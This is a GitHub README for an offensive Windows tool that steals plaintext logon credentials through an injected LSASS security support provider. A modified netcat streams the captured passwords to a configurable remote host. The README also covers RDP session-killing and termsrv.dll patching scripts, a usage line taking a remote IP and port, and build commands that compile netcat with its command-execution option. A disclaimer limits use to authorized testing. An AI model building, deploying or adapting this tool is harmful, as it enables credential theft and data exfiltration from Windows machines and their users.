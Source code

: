 # ListenYourHeart 🔍

**An offensive security tool for real-time interception and exfiltrаtion of Windows credentials to a remote host.**
---

## ⚠️ Disclaimer  
This tool is intended for **authorized security testing and research purposes only**. Unauthorized use is illegal. Ensure you have explicit permission before deploying it in any environment.

---
## 📖 Overview  
ListenYourHeart is designed to  intercept Windows authentication credentials and exfiltrate them to a remote host in real-time. It operates as a modular framework, combining credential harvesting, data transmission, and offensive automation.

---

## 🧩 Core Components

### 1. **mimilib.dll** (Security Support Provider)
- **Purpose**: Acts as a Security Support Provider (SSP) to intercept authentication credentials (plaintext passwords only).
- **Mechanism**: Injects into the LSASS process and forwards captured credentials to `mefcat.exe` via a **named pipe** (`\\.\pipe\communicate`).

### 2. **mefcat.exe** (Modified Netcat)
- **Purpose**: Facilitates real-time data exfiltration.
- **Features**:
  - Communicates with `mimilib.dll` through a named pipe.
  - Uses **Windows Events** for synchronization.
  - Provides transmission to a remote host (IP/port configurable).

### 3. 🔧 **Offensive Scripts**
#### **KoH.bat** (King Of Hill)
  - **Function:** Terminates active RDP sessions except for the session matching the specified username.
#### **patchTermSrv.exe**
  - **Function**: Patches the `termsrv.dll` library to enable multiple RDP sessions on Windows.

## 🗣 Communication process
![communicationProc](https://github.com/user-attachments/assets/15415807-b76d-4e53-924c-64cb56592d22)

## Usage
```bash
ListenYourHeart.exe <REMOTE_IP> <REMOTE_PORT> [--patch] [--koh <USERNAME>]
```
### Options
`--patch` 

Enables multi-RDP sessions on the host by applying a PowerShell script to modify termSrv.dll . 

`--koh <USERNAME>` 

Activates "King of the Hill" mode: terminates all active RDP sessions except the one associated with the specified <USERNAME> via a batch script.
## 🛠️ Build  
---

### Building `mimilib.dll`  

#### Requirements  
Compile with **Microsoft Visual Studio 2017**  **v141 XP toolset** 


---

### Building `ListenYourHeart` (Core Project)  

Compile with **Microsoft Visual Studio 2022**  and C++17 support


   ⚠️ The following files **must be placed in the root directory** of your Visual Studio solution:
   - `mefcat.exe` (compiled binary)
   - `mimilib.dll` (compiled library)  
   - `KoH.bat` (session-kick script)
   - `patchTermSrv.exe` (RDP patcher)

---

### Building `mefcat.exe`  

#### Requirements  
- **MinGW-w64** compiler

#### Command  
```bash
x86_64-w64-mingw32-gcc.exe -DWIN32 -D_CONSOLE -DTELNET -DGAPING_SECURITY_HOLE \
  getopt.c doexec.c mefcat.c \
  -s -lkernel32 -luser32 -lwsock32 -lwinmm \
  -o mefcat.exe
```

## Example



https://github.com/user-attachments/assets/d7ac37e5-7875-43cb-bab5-b8c3f5e3eab1




